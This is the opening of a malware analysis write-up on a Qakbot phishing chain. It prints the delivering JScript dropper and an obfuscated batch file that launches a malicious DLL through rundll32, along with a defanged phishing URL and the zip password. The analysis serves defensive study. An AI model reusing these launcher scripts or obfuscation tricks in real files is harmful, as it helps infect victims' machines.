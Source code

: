 # Qakbot 30 September 2022

## Intro

Three days ago a friend of mine received a phishing e-mail with a link (https[:]//lynxus[.]com/usq/refeidpisnretse) containing a zip file protected by the password "U492". 

<img width="1262" alt="0" src="https://user-images.githubusercontent.com/15001354/193664727-69ee625c-3a4d-4eea-8e71-5e718b625086.png">

Inside the zip there is an ISO called Learn#7435.iso containing a shortcut to the following malicious script:

~~~
// observablyCleaned
var undisruptedPuzzles = "rund DllRegis";

// ShellExecute
var bridgeheadsLibels = new ActiveXObject("shell.application").shellexecute("assaulting\\redressingLamentations.cmd", undisruptedPuzzles, "", "open", 0);
~~~

<img width="1134" alt="1" src="https://user-images.githubusercontent.com/15001354/193664786-75664000-6658-4582-9d27-258bd18f9d39.png">


The script uses ActiveXObject in order to execute another script called redressingLamentations.cmd (in the ISO) by passing the arguments "rund" and "DllRegis". 

Following the redressingLamentations.cmd script:

~~~
@echo off

	set a=ll
	set e=32

	:: tankageLicentiously
	%1%a%%e% assaulting\tiddler.dat,%2terServer

exit
~~~

It runs the command rundll32 assaulting\tiddler.dat,DllRegisterServer in order to start the malicious DLL.

## First Stage

After a bit of analysis, I wrote this simple script to extract the loader in order to practice a bit with python. 
The two strings used to generate the key are taken dynamically, the shellcode is taken dynamically by using the size offset that is hardcoded.


The malicious DLL was uploaded to [Malware Bazaar](https://bazaar.abuse.ch/sample/5b54f57dbaa74fa589afb2d26d6c6b39e0c2930bd88fea3172556ce96b3eb959/) by JAMESWT_MHT.
